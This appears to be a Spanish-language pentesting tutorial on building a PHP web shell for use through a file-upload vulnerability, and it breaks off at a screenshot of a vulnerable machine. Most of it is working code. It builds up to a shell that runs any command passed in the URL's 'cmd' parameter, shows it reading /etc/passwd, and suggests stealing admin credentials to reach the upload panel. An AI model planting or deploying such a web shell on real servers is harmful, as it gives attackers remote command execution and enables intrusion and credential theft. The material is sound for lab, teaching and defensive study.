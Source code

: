 ## PHP Reverse Shell Manual Multifuncional 
La más típica de las ejecuciones vía PHP que nos podemos configurar es la siguiente:

```php
<?php
	system('whoami');
?>
```
En vez de usar **system**, podemos usar **shell_exec**, más específico para la ejecución de comandos vía shell con retorno del output en formato string.
Esto se resume en la siguiente estructura:

```php
<?php
	echo shell_exec('whoami');
?>
```
En caso de querer ejecutar comandos personalizados desde la URL, podemos definir una estructura como la siguiente:

```php
<?php
	echo shell_exec($_REQUEST['cmd']);
?>
```

```
`http://192.168.1.X/fichero.php?cmd=whoami`
```
A la hora de ejecutar ciertos comandos como '_ps -faux_', o un simple '_cat /etc/passwd_', se puede ver como el Output mostrado vía web en este caso tiene un aspecto poco agradable de leer. Esto lo podemos arreglar añadiendo unas etiquetas de preformateado en nuestro script:

```php
<?php
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```
> Nota: Para explotar este tipo de vulnerabilidad sobre subidas de archivos es importante hacer una recopilación grande en todo el sistema en la parte de directorios para poder visualizar en que ruta almacena nuestro payload y posteriormente ejecutarlo

para este ejemplo utilizaré una máquina que es vulnerable a esta subida de archivos, por lo tanto supongamos en un entorno real que al logearte con tu cuenta de usuario o robandole las credenciales a admin al ingresar al panel tienes una sección donde te permite modificar y subir archivos y encontraste directorios en donde estos se almacenan
![](/assets/img/commons/FileUpload/web1.png)